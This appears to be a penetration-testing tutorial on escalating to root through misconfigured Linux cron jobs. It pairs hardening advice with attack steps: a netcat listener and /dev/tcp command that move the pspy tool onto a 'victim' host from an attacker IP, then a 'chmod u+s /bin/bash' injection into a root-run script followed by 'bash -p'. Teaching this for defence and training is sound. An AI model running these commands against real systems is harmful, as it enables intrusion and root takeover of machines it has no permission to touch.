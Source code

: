 A *cron* job is a scheduled job on Unix/Linux systems that runs at a specific time or at regular time intervals. These jobs are defined in a *crontab* file that specifies which commands should be executed and when they should be executed.

Detection and exploitation of cron jobs is a technique used by attackers to elevate their level of access on a compromised system. For example, if an attacker detects that a file is being executed by the user "root" through a cron job that runs at regular time intervals, and realizes that the permissions defined in the file are misconfigured, he could manipulate the contents of the file to include malicious instructions which would be executed in a privileged way as the user 'root', since it corresponds to the user who is executing that file.

However, to detect cron jobs, attackers can use tools such as [Pspy](https://github.com/DominicBreuker/pspy). [Pspy](https://github.com/DominicBreuker/pspy) is a command line tool that monitors the jobs running in the background of a Unix/Linux system and displays new jobs that are started.

In order to reduce the chances of an attacker being able to exploit cron jobs on a system, it is recommended to do one of the following:

- *Limit the number of cron jobs*: it is important to limit the number of cron jobs running on the system and ensure that permissions are only granted to jobs that require special permissions to function properly. This decreases the attack surface and reduces the chances that an attacker can find a vulnerable cron job.
- *Verify cron job permissions*: It is important to review cron job permissions to ensure that only authorized users and groups are granted permissions. In addition, it is recommended to avoid granting superuser permissions to cron jobs unless strictly necessary.
- *Regularly monitor the system*: It is important to regularly monitor the system to detect unexpected changes in cron jobs and to look for possible security breaches. In addition, it is recommended to use security monitoring tools to detect suspicious activity on the system.
- *Configure cron job logs*: it is recommended to enable the logging option for cron jobs, to be able to identify any suspicious activity in the defined jobs and to be able to keep a record of the activities performed by each of these.

# Enumeration

We can search for *cron* jobs on the victim's system with the [Pspy](https://github.com/DominicBreuker/pspy) tool .

To transfer it to the victim system we could leave a port listening with **netcat**:

```bash
nc -nlvp 443 < pspy
```

And in the victim's system we get the file:

```bash
cat < /dev/tcp/192.168.111.45 > pspy
```

It would be advisable to check the *integrity* of the file sent to avoid problems by checking its *md5sum*:

```bash
md5sum pspy
```

# Example

Let's suppose that inside a *crontab* file there is the following execution:

```bash
***** /bin/bash /tmp/script.sh
```

This execution means that the *script.sh* file will be executed every minute. If we had write permissions for *script.sh* and it was *root* running the job, we could modify it to gain access to the system, for example, if we add this to the script:

```bash
chmod u+s /bin/bash
```

And then we run this:

```bash
bash -p
```
